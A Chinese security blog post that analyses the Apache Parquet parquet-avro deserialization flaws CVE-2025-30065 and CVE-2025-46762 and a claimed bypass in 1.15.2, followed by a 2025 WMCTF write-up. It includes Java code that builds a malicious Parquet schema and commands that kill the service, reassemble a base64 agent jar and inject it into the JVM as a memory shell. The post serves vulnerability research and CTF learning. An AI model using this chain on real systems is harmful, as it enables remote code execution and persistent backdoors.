# 继CVE-2025-30065和46762的Apache Parquet 1.15.2绕过反序列化命令执行分析-先知社区

> **来源**: https://xz.aliyun.com/news/19063  
> **文章ID**: 19063

---

## CVE分析

CVE-2025-30065

```
该漏洞源于 parquet-avro 模块中不安全的架构解析。攻击者可以在 Parquet 文件元数据中嵌入恶意代码，当易受攻击的系统读取文件的 Avro 架构时，该元数据会自动执行。

虽然 Apache Parquet 1.15.1 通过限制不受信任的包引入了部分缓解措施，但其默认的“受信任的包”配置仍然允许从预先批准的 Java 包（例如 java.util）执行代码。

需要使用 “specific” 或 “reflect” 数据模型（而不是更安全的 “generic” 模型）。

易受攻击的系统必须处理攻击者控制的 Parquet 文件。

受影响的系统

所有 Apache Parquet Java 版本≤ 1.15.1。
```

那么在1.15.1的代码改动如下

```
https://github.com/apache/parquet-java/pull/3169/commits/664ce2b432855821a2334c39c46981c8dfa4278d
```



增加了一个函数，限定了反序列化的包。

checkSecurity函数如下

```
private void checkSecurity(Class clazz) throws ClassNotFoundException {
        if (trustAllPackages() || clazz.isPrimitive()) {
            return;
        }
        boolean found = false;
        Package thePackage = clazz.getPackage();
        if (thePackage != null) {
            for (String trustedPackage : getTrustedPackages()) {
                if (thePackage.getName().equals(trustedPackage) || thePackage.getName().startsWith(trustedPackage + ".")) {
                    found = true;
                    break;
                }
            }
            if (!found) {
                throw new SecurityException("Forbidden " + clazz + "! This class is not trusted to be included in Avro schema using java-class. Please set org.apache.avro.SERIALIZABLE_PACKAGES system property with the packages you trust.");
            }
        }
    }

```

CVE-2025-46762

```
# Parquet Avro 模块代码执行漏洞

## 概述
Apache Parquet 1.15.0 及之前版本的 parquet-avro 模块在解析 Schema 时存在漏洞，允许恶意用户执行任意代码。

## 影响版本
- 1.15.0 及之前版本

## 细节
- 在 1.15.1 版本中引入了修复，限制了不受信任的包，但默认设置的受信任包仍然允许执行恶意类。
- 该漏洞仅适用于故意使用 "specific" 或 "reflect" 模型读取 Parquet 文件的 client 代码。（"generic" 模型不受影响）

## 影响
建议用户升级到 1.15.2 版本或在 1.15.1 版本中将系统属性 `org.apache.parquet.avro.SERIALIZABLE_PACKAGES` 设置为一个空字符串来修复该问题。
```

我们来看看1.15.2又是进行了什么改动



详情的改动

```
https://github.com/apache/parquet-java/pull/3199/commits/fb7ec99faf360bb3882735ed6ba06a6d69880302
```

增加了`ReflectClassValidator`类，对反序列化的类名进行验证。

1.15.2也只是添加了一些类名的信任，似乎漏洞依然是存在的

## parquet文件语法

先看两个例子

例子一、

```
{
  "name": "LogicalTypesTest",
  "namespace": "org.apache.parquet.avro",
  "doc": "Record for testing logical types",
  "type": "record",
  "fields": [
    {
      "name": "timestamp",
      "type": {
        "type": "long",
        "logicalType": "timestamp-millis"
      }
    },
    {
      "name": "local_date_time",
      "type": {
        "name": "LocalDateTimeTest",
        "type": "record",
        "fields": [
          {
            "name": "date",
            "type": {
              "type": "int",
              "logicalType": "date"
            }
          },
          {
            "name": "time",
            "type": {
              "type": "int",
              "logicalType": "time-millis"
            }
          }
        ]
      }
    }
  ]
}

```

例子二、

```
{
  "name" : "StringBehaviorTest",
  "namespace": "org.apache.parquet.avro",
  "type" : "record",
  "fields" : [ {
    "name" : "default_class",
    "type" : "string"
  }, {
    "name" : "string_class",
    "type" : {"type": "string", "avro.java.string": "String"}
  }, {
    "name" : "stringable_class",
    "type" : {"type": "string", "java-class": "java.math.BigDecimal"}
  }, {
    "name" : "default_map",
    "type" : {
      "type" : "map",
      "values" : "int"
    }
  }, {
    "name" : "string_map",
    "type" : {
      "type" : "map",
      "values" : "int",
      "avro.java.string": "String"
    }
  }, {
    "name" : "stringable_map",
    "type" : {
      "type" : "map",
      "values" : "int",
      "java-key-class": "java.math.BigDecimal"
    }
  } ]
}

```

关键是看几个fields

```
name	类名
namespace	空间名
type	类型,有record、map、string、array、long、int、union、enum、fixed等、
fields	字段名
```

record实际上指代了这个类要被反序列化。

```
java-element-class
java-class
java-key-class
```

实际上就是指字段的类型

比如

```
"name" : "stringable_map",
    "type" : {
      "type" : "map",
      "values" : "int",
      "java-key-class": "java.math.BigDecimal"
    }

实际上就是这个意思
Map<BigDecimal, Integer> stringableMap;


"name" : "stringable_class",
"type" : {"type": "string", "java-class": "java.math.BigDecimal"}

实际上就是这个意思,被映射成java.math.BigDecimal了。
private java.math.BigDecimal stringableClass;
```

fields则是这个类里面要有的字段

```
Class<?> recordClass = Classfor.Name()
Field[] allFields = recordClass.getDeclaredFields();
        for (int i = 0; i < allFields.length; i++) {
            Field field = allFields[i];
            System.out.println(field.getName());
        }

```



## 链子调试

我们先来分析下面这行代码

```
        
        Path file2 = new Path("users2.parquet");
        try (ParquetReader<Object> reader = AvroParquetReader.builder(file2).withDataModel(ReflectData.get()).disableCompatibility().build()) {
            GenericRecord record;
            while ((record = (GenericRecord) reader.read()) != null) {
                System.out.println(record);
            }
        }
```

users2.parquet文件的创建

```
        String schemaJson3="{"
                + ""type":"record","
                + ""name":"sun.print.PrintServiceLookupProvider","
                + ""fields":[{"
                + ""name":"defaultPrinter","
                + ""type":"string""
                + "}]}";
        Schema schema = new Schema.Parser().parse(schemaJson3);
        // 创建 ParquetWriter
        Path file = new Path("users2.parquet");
        if (new File(file.toString()).exists()) {
            new File(file.toString()).delete();
        }
        try (ParquetWriter<GenericRecord> writer = AvroParquetWriter.<GenericRecord>builder(file)
                .withSchema(schema)
                .withCompressionCodec(CompressionCodecName.SNAPPY)
                .withConf(new Configuration())
                .build()) {

         GenericRecord record = new GenericData.Record(schema);
         record.put("defaultPrinter", "calc");
         writer.write(record);
        }
```

‍

为什么说使用 "specific" 或 "reflect" 模型读取 Parquet 文件的 client 代码就会造成恶意用户执行任意代码呢？

### 触发原因

首先ParquetReader reader最终会调用一个read函数

第一步先检查渲染是否为空，如果为空就会调用initReader()函数进行初始化



初始化的操作就是读取了.parquet文件，最后reader被赋值成了`InternalParquetRecordReader`

同时调用了`InternalParquetRecordReader`里面的initialize的方法



那么在执行完initialize之后，又会进行一次`return this.reader == null ? null : this.read();`判断

此时再次执行read函数，那么reader不为空



同时执行了`InternalParquetRecordReader`的nextKeyValue方法



跟入`recordReader.read();`



跟入`recordRootConverter.start()`


跟入this.model.newRecord



跟入`super.newRecord`



‍

这个super其实就是`SpecificData`类，也就是我们漏洞所需要调用的模型，



而`ReflectData`也是继承`SpecificData`类。

此时的old为null，必然步入newInstance的方法。





而newInstance里面调用的newInstance则是构造器`Constructor`里面的newInstance

那么步入进去我们就会发现，实例化的正是我们`parquet`文件中编写的类，然后调用了它的构造函数。



最后触发构造函数调用的就是

avro-1.11.4.jar!\org\apache\avro\specific\SpecificData.class类下面的newInstance方法

```
public static Object newInstance(Class c, Schema s) {
        boolean useSchema = SchemaConstructable.class.isAssignableFrom(c);

        try {
            Constructor<?> meth = (Constructor)CTOR_CACHE.apply(c);
            Object result = meth.newInstance(useSchema ? new Object[]{s} : null);
            return result;
        } catch (Exception var5) {
            Exception e = var5;
            throw new RuntimeException(e);
        }
    }
```

链子就是

```
ParquetReader<Object> reader = AvroParquetReader.builder(path).withDataModel(ReflectData.get()).disableCompatibility().build();
reader.read()
org.apache.parquet.hadoop.ParquetReader#read()
org.apache.parquet.hadoop.ParquetReader#initReader()
org.apache.parquet.hadoop.InternalParquetRecordReader#nextKeyValue()
org.apache.parquet.io.RecordReaderImplementation#read()
org.apache.parquet.avro.AvroRecordConverter#start()
org.apache.avro.reflect.ReflectData#newRecord()
org.apache.avro.specific.SpecificData#newRecord()
org.apache.avro.specific.SpecificData#newInstance()

```

‍

### initialize函数的逻辑

上面我们只是分析了构造函数的触发，却没有分析读文件内容以及进行一个转换的initialize方法



首先上面两行主要还是获取`org.apache.parquet.HadoopReadOptions`的选项或者配置

关键的是下面的内容

​`FileMetaData parquetFileMetadata = reader.getFooter().getFileMetaData();`

FileMetaData就是文件元数据，包含文件的数据结构定义（schema）、格式信息、生成者信息等。

最后返回的内容结构如下

```
FileMetaData{schema: message sun.print.PrintServiceLookupProvider {
  required binary defaultPrinter (STRING);
}
, metadata: {parquet.avro.schema={"type":"record","name":"PrintServiceLookupProvider","namespace":"sun.print","fields":[{"name":"defaultPrinter","type":"string","default":"calc","java-class":"sun.print.PrintServiceLookupProvider"}]}, writer.model.name=avro}}
```

（1）schema: message sun.print.PrintServiceLookupProvider {...}  
数据结构定义，表示该文件的数据遵循此结构：  
sun.print.PrintServiceLookupProvider：数据结构的名称  
required binary defaultPrinter (STRING)：定义了一个必填字段defaultPrinter，类型标注为binary（二进制），但括号中(STRING)表示实际按字符串处理。  
（2）metadata: {parquet.avro.schema=...}  
这部分是Parquet 文件格式中存储的 Avro schema 信息：  
"type":"record"：表示这是以类或对象Object形式处理的数据。  
"name":"PrintServiceLookupProvider","namespace":"sun.print"：对应类名，还有空间名。  
"fields":[{"name":"defaultPrinter","type":"string","default":"calc","java-class":"sun.print.PrintServiceLookupProvider"}]：  
字段defaultPrinter类型为string（字符串）。  
default:"calc"：默认值为"calc"  
java-class：指定该字段在 Java 中最后要映射的类。  
（3）writer.model.name=avro  
表示该文件的数据写入模型是 Avro，即文件内容是按照 Avro 格式的规则序列化的。

‍

​`this.fileSchema = parquetFileMetadata.getSchema();`

就是获取整个Schema结构，如下

```
message sun.print.PrintServiceLookupProvider {
  required binary defaultPrinter (STRING);
}

```

‍

​`Map<String, String> fileMetadata = parquetFileMetadata.getKeyValueMetaData();`

就是以键值对的方式来处理`parquetFileMetadata`的元数据

```
parquet.avro.schema -> {"type":"record","name":"PrintServiceLookupProvider","namespace":"sun.print","fields":[{"name":"defaultPrinter","type":"string","default":"calc","java-class":"sun.print.PrintServiceLookupProvider"}]}

writer.model.name -> avro
```

‍

​`ReadSupport.ReadContext readContext = this.readSupport.init(new InitContext(conf, toSetMultiMap(fileMetadata), this.fileSchema));`

对上面的几个数据进行一个初始化和赋值

‍

​`this.columnIOFactory = new ColumnIOFactory(parquetFileMetadata.getCreatedBy());`

新建了一个列的IO流工厂

‍

​`this.requestedSchema = readContext.getRequestedSchema();`

又进行了一次`RequestedSchema`结构上的获取

‍

​`this.columnCount = this.requestedSchema.getPaths().size();`

对列的数量进行一个获取

‍

那么来到最重要的这两行代码的判断

```
reader.setRequestedSchema(this.requestedSchema);
this.recordConverter = this.readSupport.prepareForRead(conf, fileMetadata, this.fileSchema, readContext);
```





获取了项目里面的列

‍

然后进行一个预读`prepareForRead`函数



​`avroSchema = (new Schema.Parser()).parse((String)keyValueMetaData.get("parquet.avro.schema"));`

会把Schema的内容进行一个解析。



然后把它当成了一个json格式来解析



然后就会对schema每个字段进行一个对应的解析



最关键就是在field字段里面，会再进行一个parse解析，查看是否有嵌套的类



最后会进行一个while-if的判断



如果不在里面，就会添加，例如我的java-class这个字段就不在，他就会添加进去。

然后他会检查有没有`Aliases`这个节点

最后就是`return (Schema)result;`把结果返回出去



那么最后的var17就是等于schema了



那么avroSchema就是等于var17就是等于schema了

最后走到这个`return new AvroRecordMaterializer(parquetSchema, avroSchema, model, (ReflectClassValidator)(serializableClasses == null ? new ReflectClassValidator.PackageValidator() : new ReflectClassValidator.ClassValidator(serializableClasses)));`

他会先进行一个`new ReflectClassValidator.PackageValidator()`的包名验证初始化



​`AvroRecordMaterializer`最后就是调用了`AvroRecordMaterializer`类的构造函数，

```
AvroRecordMaterializer(MessageType requestedSchema, Schema avroSchema, GenericData baseModel, ReflectClassValidator validator) {
        this.root = new AvroRecordConverter(requestedSchema, avroSchema, baseModel, validator);
    }
```

里面是对`AvroRecordConverter`进行了类的初始化，同时调用`AvroRecordConverter`的构造函数

AvroRecordConverter(MessageType parquetSchema, Schema avroSchema, GenericData baseModel, ReflectClassValidator validator)

```
AvroRecordConverter(MessageType parquetSchema, Schema avroSchema, GenericData baseModel, ReflectClassValidator validator) {
        this((ParentValueContainer)null, parquetSchema, avroSchema, baseModel, validator);
        LogicalType logicalType = avroSchema.getLogicalType();
        Conversion<?> conversion = baseModel.getConversionFor(logicalType);
        this.rootContainer = ParentValueContainer.getConversionContainer(new ParentValueContainer() {
            public void add(Object value) {
                AvroRecordConverter.this.currentRecord = value;
            }
        }, conversion, avroSchema);
    }
```

里面的this再次调用类中另外的构造函数

```
AvroRecordConverter(ParentValueContainer parent, GroupType parquetSchema, Schema avroSchema, GenericData model, ReflectClassValidator validator)
```

‍

那么整个代码实际上就是利用反射，获取recordClass的字段，判断这些字段的类型，转换成Avro格式，同时判断这个字段是不是存在。





最后的var11为0，即while循环不执行



然后就跳回原来的initialize方法



‍

```
this.strictTypeChecking = options.isEnabled("parquet.strict.typing", true);
this.total = reader.getFilteredRecordCount();
this.unmaterializableRecordCounter = new UnmaterializableRecordCounter(options, this.total);
this.filterRecords = options.useRecordFilter();
```

这四行主要是设置是否启用 “严格类型检查” 模式、获取经过过滤后的总记录数、初始化一个 “不可实例化记录计数器”、设置是否启用记录过滤功能。

‍

## 2025wmctf--parquet分析



同时也给了docker



题目也是直接给了CVE这个提示，但是目前网上没有46762相关的payload，却提到了一个相关的cve30065

相关版本是Apache Parquet（parquet-avro 模块） parquet-hadoop-1.15.2jar 1.15.0

参考文章

```
https://www.f5.com/labs/articles/threat-intelligence/canary-exploit-tool-for-cve-2025-30065-apache-parquet-avro-vulnerability
https://blog.csdn.net/syg6921008/article/details/147027203

```

到了1.15.2版本，也就是题目所给的版本

那么上面已经给出分析的调用链子了，但是没有给出调用的构造函数。

那么其实在linux环境下的jdk11有下面这两个类的构造函数能够调用到`Runtime.getRuntime().exec()`进行命令执行。

```
sun.print.UnixPrintServiceLookup
sun.print.PrintServiceLookup
```



PrintServiceLookupProvider的调用栈

```
execCmd:872, PrintServiceLookupProvider (sun.print)
getDefaultPrinterNameBSD:747, PrintServiceLookupProvider (sun.print)
getDefaultPrintService:661, PrintServiceLookupProvider (sun.print)
refreshServices:278, PrintServiceLookupProvider (sun.print)
run:945, PrintServiceLookupProvider$PrinterChangeListener (sun.print)
run:829, Thread (java.lang)
```

‍

起一个docker环境，能命令执行直接反弹shell。



测试了好久，发现题目貌似是不出网的，一开始还以为是我命令执行失败了。

后面我尝试执行`pkill -f 'java -jar /app/app.jar'`服务没掉了之后，然后靶机过会自动重启。


确实能命令执行，


靶机还是存在的。一开始还想着去执行命令，让进程重启，然后把app.jar包给替换成自己的恶意jar包。

但是后面发现这个方法不行。

猜测重启是因为docker可能设置了 restart：always，遇到异常退出就restart了。

‍

‍



我们看到上传parquet文件后解析失败了，具体原因是什么呢？



具体原因就是因为sun.print.PrintServiceLookupProvider无法映射，那么能写入文件的话，我们就可以考虑重新写一个恶意类或者说写一个agent的内存马呢？

这里我选择把`IndexController`类的getIndex方法给hook掉



生成agent.jar,base64编码

但是由于太长了，没办法一次性echo进去

只能想到笨方法，就是将他们进行一个分片

```
echo base64内容 > /tmp/1.txt
echo base64内容 > /tmp/2.txt
……
echo base64内容 > /tmp/21.txt
```



‍

运行splitagent.py将agnet分片，然后编写一个sh脚本批量执行下面命令

```
java -cp "/lib/*:." test2 "base64内容" "文件顺序"
```



就会产生21个parquet



然后执行exp.py将所有的parquet都发送过去。



然后再传genapp.parquet，将分片的agent合成完整的agent

实际上执行了

```
cat /tmp/{1..21}.txt | tr -d '
' | base64 -d > /app/agent.jar
```

然后再传attachapp.parquet也就是加载我们的agent，实际上执行了

```
jcmd $(jps -l | grep "/app/app.jar" | awk '{print $1}') JVMTI.agent_load /app/agent.jar
```

‍



最后成功rce并且获得回显

‍

## 后记

这题个人感觉这个应该不是预期解，但是由于隔了一段时间才去复现的，wmctf的环境已经不存在了，只能用docker来进行模拟。

但是个人觉得该方法可行性还是很高的，因为只有对应的权限才能够执行`pkill -f 'java -jar /app/app.jar'`将环境的app.jar进程给结束掉

而tmp目录又是可写的，因此写了批量执行脚本的话，并不会觉得很繁琐。

‍

‍

‍

‍
